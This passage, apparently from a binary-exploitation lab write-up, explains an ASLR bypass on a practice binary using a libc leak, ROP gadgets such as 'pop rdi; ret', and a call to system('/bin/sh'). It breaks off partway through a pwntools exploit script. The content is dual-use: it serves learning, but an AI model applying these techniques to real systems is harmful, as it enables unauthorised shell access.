 #### Why do we call `main()` twice?

The reason that we call `main()` twice is because after we leak the address, <mark style="color:yellow;">we don't want the process to exit immediately since this will render the leaked address to be invalid</mark> (hence ASLR being enabled and a new set of randomized addressing will occur).

So, to combat this we will redirect the flow of execution to `main()` once more by calling `main()`.

## Exploit Development

So with this particular ASLR bypass, I chose to split up our exploit into three different stages that will accomplish different things to grant us a shell:

**Stage 1**: <mark style="color:yellow;">Leak the libc address (puts@GLIBC)</mark>

**Stage 2**: _<mark style="color:yellow;">Obtain addresses and offsets</mark>_

**Stage 3**: <mark style="color:yellow;">Calculate the base address of libc</mark>

### Explaining the `pop rdi; ret` ROP Gadget

According to the <mark style="color:yellow;">x64 calling convention</mark>, function arguments are to be passed into CPU registers.

* First parameter: RDI
* Second parameter: RSI
* Third parameter : RDX

We need `pop rdi; ret` in `puts()` because it the `puts()` function requires and reads the first parameter from the `RDI` register.

We then need a `pop rdi; ret` for `system()` because we need to supply the parameters of the string `"/bin/sh\x00"` in order to get a shell.

### Automated Exploit Development w/ pwntools

`aslr-1-exploit.py`:

```python
from pwn import *
from pwnlib import gdb
from pwnlib.elf.elf import ELF
from pwnlib.tubes.remote import remote
from pwnlib.tubes.process import process
from pwnlib.rop.rop import ROP
from pwnlib.util.packing import p64, u64
from pwnlib.ui import pause
from pwn import context, log

###################
###### SETUP ######
###################

exe = context.binary = ELF('./aslr-1', checksec=False)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
# context.log_level = 'debug'

p = process(exe.path)

###################
#### libc leak ####
###################
offset = b'A'*56

rop = ROP(exe)

ret = rop.find_gadget(["ret"])[0]
```